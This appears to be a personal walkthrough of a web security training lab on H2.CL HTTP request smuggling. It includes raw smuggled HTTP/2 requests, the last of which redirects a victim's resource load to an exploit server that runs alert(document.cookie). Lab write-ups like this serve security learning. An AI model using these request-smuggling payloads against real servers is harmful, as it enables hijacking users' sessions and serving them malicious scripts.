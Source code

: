 
**Lab H2.CL request smuggling**

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.



- Sent a search query POST req to repeater, and trimmed it down to just the essential headers.
- Then performed an H/2 Smuggle Probe
- Sent that result to repeater
- Then edited the req even more and sent this to see if I could get a 404 response, 
because that means I can make the back-end  append any subsequent requests to the smuggled prefix.

>POST / HTTP/2 
>Host: YOUR-LAB-ID.web-security-academy.net 
>Content-Length: 0 
>
>0
>
>NETFLIXSUX

- Then smuggled a GET req  to the /resources path, using a random domain name. The reason is to see if it /resources is appended to it and if I get a 302 found response..this means that I can craft an exploit and smuggle a get req that will direct an unsuspecting user to my exploit server using the /resources path

- And for some reason were using a CL of 0. But hey, it worked. 

>POST / HTTP/2
>Host: ac431fe71e99be12c0542b47009f0047.web-security-academy.net
>Content-Length: 0
>
>0
>
>GET /resources HTTP/1.1
>Host: lukesmith.xyz
>Content-Length: 5
>
>x=1


And thats what I did to solve it.
Went to the exploit server and loaded the payload `alert(document.cookie)`
stored it, and pasted it's URL to the smuggled GET req..so it looked like this:

>POST / HTTP/2
>Host: ac431fe71e99be12c0542b47009f0047.web-security-academy.net
>Content-Length: 0
>
>0
>
>GET /resources HTTP/1.1
>Host: `exploit-ac0a1f0b1ebebe27c07b2bfb010e00a1.web-security-academy.net
>Content-Length: 5
>
>x=1
